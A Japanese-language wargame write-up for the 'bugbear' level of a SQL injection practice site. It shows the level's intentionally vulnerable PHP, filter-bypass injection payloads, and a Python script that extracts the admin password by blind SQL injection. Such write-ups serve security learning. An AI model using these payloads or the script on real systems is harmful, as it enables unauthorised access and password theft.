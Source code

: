 # bugbear

## answer

- [bugbear](../src/bugbear.py)

## problem

```
query : select id from prob_bugbear where id='guest' and pw='' and no=

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```

## memo

試しに、

```
https://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php?no=1&pw=1
```

とすると

```
query : select id from prob_bugbear where id='guest' and pw='1' and no=1
```

となった。

```
if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe");
```

GETパラメータ noのフィルターは、=、like、0x、asciiなども禁じている。

```
?no=1/**/||1/**/&pw=1
```

これを試すと、

```
Hello guest
```

となる。

次は「Hello admin」を出したい。
「= "admin"」「like  "admin"」は「in ("admin")」で代替して（ちなみに、&&は「%26%26」）

```
?no=1/**/||/**/id/**/in/**/("admin")/**/%26%26/**/LEFT(pw,1)/**/</**/"A"
```

で、```Hello admin```とでるので、BlindSQLiということがわかった。

```
?no=1/**/||/**/id/**/in/**/("admin")/**/%26%26/**/LEFT(pw,1)/**/</**/"0"

?no=1/**/||/**/id/**/in/**/("admin")/**/%26%26/**/LEFT(pw,1)/**/</**/"A"
```

↑ちなみに、これだと下のみHello admin

```
?no=1||id/**/in/**/("admin")%26%26MID(pw,1,1)/**/in/**/("7")
```

おっと、これが通る。

それじゃ、コード書いていくぜ。

```
#!/usr/bin/python3
# coding : UTF-8

import sys
import requests
import time

def main():
    url = "https://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php"
    ua = 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36'
    headers = {'User-Agent': ua}
    cookies = dict(PHPSESSID='XXXXXXXXXXXXXXXXXXXX)

    chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    password = ""
    for count in range(1, 11):
        for char in chars:
            val = '1||id/**/in/**/(\"admin\")&&MID(pw,{count},1)/**/in/**/(\"{char}\")'.format(count = count, char = char)
            params = {'no': val}
            response = requests.get(url, headers=headers, params=params, cookies=cookies, allow_redirects=False)
            if response.text.count("Hello admin") == 1:
                password += char
                print(password)
                break
            if char == 'z':
                print("not found")
                print(password)
                return
            time.sleep(0.1)
    print(password)

if __name__ == "__main__":
    main()
```

## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [addslashes | php manual](https://www.php.net/manual/ja/function.addslashes.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)
